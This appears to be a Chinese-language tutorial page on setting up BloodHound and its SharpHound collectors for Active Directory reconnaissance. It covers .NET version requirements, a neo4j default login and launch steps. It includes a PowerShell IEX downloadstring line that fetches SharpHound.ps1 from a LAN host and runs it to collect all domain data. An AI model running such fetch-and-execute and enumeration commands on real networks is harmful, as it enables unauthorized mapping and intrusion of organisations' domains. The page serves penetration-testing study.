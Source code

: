    2. 下载[BloodHound](https://github.com/BloodHoundAD/BloodHound)

2. 收集器

   1. [下载](https://gitee.com/yijingsec/BloodHound/tree/master/Collectors)

   2. 编译

      `Visual Studio` 编译`SharpHound` 需要安装对应版本 `.NETFramework` 

      - 生成应用 - 开发包: 编译程序下载开发人员工具包

      - 运行应用 - 运行时: 运行编译后的程序需要安装对应版本运行时

        [各版本Windows系统中自带.NET Framework版本](https://blog.csdn.net/yangowen/article/details/103934078)

      - [SharpHound](https://github.com/BloodHoundAD/SharpHound)

        收集器：`BloodHound v4.x.x`

        应用程序集 [.NETFramework](https://dotnet.microsoft.com/zh-cn/download/dotnet-framework/net462): `v4.6.2`

      - [SharpHound2](https://github.com/BloodHoundAD/SharpHound2)

        收集器：`BloodHound v2.x.x`

        应用程序集 [.NETFramework](https://dotnet.microsoft.com/zh-cn/download/dotnet-framework/thank-you/net35-sp1-web-installer): `v3.5`

      - [SharpHound3](https://github.com/BloodHoundAD/SharpHound3)

        收集器：`BloodHound v3.x.x`

        应用程序集 [.NETFramework](https://dotnet.microsoft.com/zh-cn/download/dotnet-framework/net452): `v4.5.2`

   3. 加载powershell

      ```powershell
      IEX (NEW-OBJECT net.webclient).downloadstring('http://192.168.81.154:8000/SharpHound.ps1');Invoke-BloodHound -c all
      ```

3.  启动

   1. 启动 neo4j

      ```bash
      neo4j start
      neo4j console
      ```

   2. 登录neo4j

      访问：`http://localhost:7474/browser/`

      账密：`neo4j / neo4j`

   3. 启动 BloodHound

      ```bash
      ./BloodHound --no-sandbox
      ```

   4. 运行收集器

      运行收集器程序后，在当前目录将生成包含所有数据的压缩包，压缩包拖入`BloodHound`, 即可筛选查看收集到的域相关的信息





